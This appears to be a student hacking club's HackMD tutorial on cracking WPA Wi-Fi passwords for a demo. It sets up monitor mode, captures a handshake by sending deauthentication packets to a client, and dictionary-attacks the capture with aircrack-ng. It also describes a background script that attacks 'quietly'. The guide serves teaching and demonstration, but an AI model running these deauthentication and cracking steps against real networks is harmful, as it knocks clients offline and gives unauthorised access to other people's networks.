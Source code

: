 # wifi: what's cracking?

> Author: Junner
> Date: 12/05/2024
> Code: https://github.com/HackerSir/My-Waifu-Is-Not-Safe
> Description: [HackMd](https://hackmd.io/WEyS9iLSRje7boteEW4bWg)

## Content

> * [設定](#For-Connection-network-configuration)
> * [用指令攻擊](#Crack-a-wifi-password-using-commands)
> * [用 Python 攻擊](#Crack-a-wifi-password-with-Python-scripts)


## For Connection: network configuration

When pluging the usb device in, this window will pop up. Choose `Connect to Virtual machine` > select your destination device.

![圖片](https://hackmd.io/_uploads/HyYE0AqXyx.png)

`OK`
![圖片](https://hackmd.io/_uploads/ByDQCC5myx.png)

To check the device has already been connected, run `iwconfig` and you must see the device.
![圖片](https://hackmd.io/_uploads/BJgmRA971l.png)

If you see the device by running `lsusb` but don't see it appears at `iwconfig`, again, do the steps above, or check the network settings below. And if you did them several times but still don't see the device, restart the virtual machine.

Here is the connection settings.
`Tabs` >
![圖片](https://hackmd.io/_uploads/rympRA9Xyl.png)

`Edit` > `Virtual Network Editor`
No need to bridge
![圖片](https://hackmd.io/_uploads/r1UOR0qmyl.png)

`VM` > `Settings` > `Network Adapter`
Usually the pluging usb is `VMnet0`
![圖片](https://hackmd.io/_uploads/H1qeJko7Jx.png)


And the setting process is done. Go enjoy your cracking!

## Crack a wifi password: using commands

### Start Monitor Mode

Open monitor mode for the network adaptor is necessary. Here's several commands:

```bash=
ifconfig wlan0 down
```

If you run this, get no networks is normal.
```bash=2
airmon-ng check kill
```


```bash=3
iwconfig wlan0 mode monitor
```
If you see this, ignore it.
![圖片](https://hackmd.io/_uploads/S1VqYys71e.png)

```bash=4
ifconfig wlan0 up
airmon-ng start wlan0
```

To test if monitor mode really on, and ready for injection:
```bash=6
aireplay-ng --test wlan0
```
This is a success response: Injection is working!
![圖片](https://hackmd.io/_uploads/ryDatyj71g.png)

### Turn off monitor mode and recorvery neworks

```bash=
airmon-ng stop wlan0
ifconfig wlan0 down
```
Cause you've killed network manager, you don't have network connection. To recorver it, run:
```bash=3
service NetworkManager restart
```

### Crack a password

#### 1. get the target BSSID

For ex, the target has name `alEx`.
```
airodump-ng --essid alEx wlan0
```
You'll see the `BSSID` at the top left. `Ctrl+C` to interrupt it and copy the address: `62:2D:E9:E6:8A:47`
![圖片](https://hackmd.io/_uploads/rkRyAJjQJl.png)

#### 2. get stations' mac address that connected to the target
```
airodump-ng --bssid 62:2D:E9:E6:8A:47 -c 1 -w /home/kali/Desktop/nets/test1 wlan0
```

And files will store at `/home/kali/Desktop/nets/` with preffix `test1`.

Wait for 5 to 30 seconds, their should be an address (or addresses) below `STATION`.
By the way, the channel `CH` should stay at `1`.
![圖片](https://hackmd.io/_uploads/S1SbGesQke.png)

#### 3. get ACK

Open **ANOTHER** terminal, and the command above should stay running.
```
aireplay-ng -0 20 -a 62:2D:E9:E6:8A:47 -c 50:C2:E8:0B:44:55 wlan0
```

#### 4. EXPLOSION!!

Check the ACK you just get, the file name extension is `.cap`. And usually the latest one has the biggest number.
![圖片](https://hackmd.io/_uploads/SJRS_ximyl.png)

And there we go!
```
aircrack-ng -a2 -b 62:2D:E9:E6:8A:47 -w /home/kali/Desktop/passwords/10-million-password-list-top-1000000.txt /home/kali/Desktop/nets/test1*.cap
```

![圖片](https://hackmd.io/_uploads/SJQYkZs7Jx.png)

## Crack a wifi password: with Python scripts

基本上大部分情況都會被處理，如果還是爆開就...用上面的指令打，因為用上面的指令還比較有展示性一點，但如果用 script 就能悄悄的攻擊，兩種不一樣的方式。

所以如果可以的話，先問他們 wifi 名稱，放到 script 裡面讓他背景執行。如果真的不行的話再手動打，現場展示。


基本上會改的部分就是 `target`、`file_path`、`passwordSet_path`。

主要：
* `target`：要攻擊的目標名稱。

其他還有像是：
* `file_path`：要儲存的檔案**路徑**。
* `passwordSet_path`：密碼集文字檔的所在地。

![圖片](https://hackmd.io/_uploads/BJkkIEy4Jg.png)

